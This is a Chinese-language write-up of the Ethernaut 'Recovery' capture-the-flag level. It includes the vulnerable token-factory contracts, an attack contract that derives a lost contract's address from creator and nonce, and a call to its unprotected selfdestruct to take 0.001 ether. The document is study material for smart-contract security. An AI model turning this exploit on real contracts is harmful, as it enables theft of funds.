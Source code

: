 # 17-Recovery

日期: 21/08/2024
难易: 中等
漏洞小结: 合约生成
简单明了: 需要了解合约是如何生成的

# 问题描述

A contract creator has built a very simple token factory contract. Anyone can create new tokens with ease. After deploying the first token contract, the creator sent `0.001` ether to obtain more tokens. They have since lost the contract address.

This level will be completed if you can recover (or remove) the `0.001` ether from the lost contract address.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {
    //generate tokens
    function generateToken(string memory _name, uint256 _initialSupply) public {
        new SimpleToken(_name, msg.sender, _initialSupply);
    }
}

contract SimpleToken {
    string public name;
    mapping(address => uint256) public balances;

    // constructor
    constructor(string memory _name, address _creator, uint256 _initialSupply) {
        name = _name;
        balances[_creator] = _initialSupply;
    }

    // collect ether in return for tokens
    receive() external payable {
        balances[msg.sender] = msg.value * 10;
    }

    // allow transfers of tokens
    function transfer(address _to, uint256 _amount) public {
        require(balances[msg.sender] >= _amount);
        balances[msg.sender] = balances[msg.sender] - _amount;
        balances[_to] = _amount;
    }

    // clean up after ourselves
    function destroy(address payable _to) public {
        selfdestruct(_to);
    }
}
```

# 攻击思路

其实完全没有思路，有点超出认知范围，靠着GPT才知道，详见**小白的思考**

# 攻击方式

```solidity
contract AttackRecovery{
    address constant  TOADDRESS = 0xF06fF3cb536197bea6d3AF6DE30Bd96aE4533300;

    function computeAddress(address _creator, uint256 _nonce) public pure returns (address) {
    return address(uint160(uint(keccak256(abi.encodePacked(
        bytes1(0xd6),
        bytes1(0x94),
        _creator,
        bytes1(uint8(_nonce))
    )))));
}
    function attack(address _CreatorAddress) public{
        address computedAddress = computeAddress(_CreatorAddress,1);
        SimpleToken st = SimpleToken(payable(computedAddress));
        st.destroy(payable(TOADDRESS));
    }
}
```

# Ethernuat总结

Contract addresses are deterministic and are calculated by `keccak256(address, nonce)` where the `address` is the address of the contract (or ethereum address that created the transaction) and `nonce` is the number of contracts the spawning contract has created (or the transaction nonce, for regular transactions).

Because of this, one can send ether to a pre-determined address (which has no private key) and later create a contract at that address which recovers the ether. This is a non-intuitive and somewhat secretive way to (dangerously) store ether without holding a private key.

An interesting [blog post](https://swende.se/blog/Ethereum_quirks_and_vulns.html) by Martin Swende details potential use cases of this.

If you're going to implement this technique, make sure you don't miss the nonce, or your funds will be lost forever.

# 小白的思考

这个挑战的核心在于理解 Solidity 中的合约地址是如何生成的。

### 关键点：合约地址的生成规则

在以太坊中，当一个合约被创建时，它的地址是通过以下方式计算的：

```jsx
address = keccak256(rlp.encode([sender, nonce]))
```

其中`sender` 是部署合约的地址。

- `nonce` 是发送方的交易次数（也就是该地址发起的交易数量）。

在这个挑战中，`Recovery` 合约生成了一个 `SimpleToken` 合约，而这个新合约的地址就是根据 `Recovery` 合约的地址和它的 nonce 计算得出的。

### 解题步骤

1. **找到生成的 `SimpleToken` 合约的地址：**
因为我们知道 `Recovery` 合约创建了这个代币合约，并且它的地址是通过特定规则生成的，所以你可以通过计算 `Recovery` 合约地址和它的 nonce 推导出 `SimpleToken` 合约的地址。对于第一个创建的合约，nonce 一般是 `1`。
2. **通过推导出来的地址与丢失的合约进行交互：**
找到这个合约地址后，你可以调用 `destroy` 函数，将合约中剩余的 ETH 发送到你指定的地址。

具体实现可以在 Web Console 或 Remix 中利用计算合约地址的方式进行推导。你可以使用以下代码计算：

```solidity
function computeAddress(address _creator, uint256 _nonce) public pure returns (address) {
    return address(uint160(uint(keccak256(abi.encodePacked(
        bytes1(0xd6),
        bytes1(0x94),
        _creator,
        bytes1(uint8(_nonce))
    )))));
}
```

通过这个地址，你可以调用 `SimpleToken` 的 `destroy` 函数来销毁合约并回收其中的 0.001 ETH。

你可以先尝试这些步骤，然后我们再讨论遇到的任何问题。
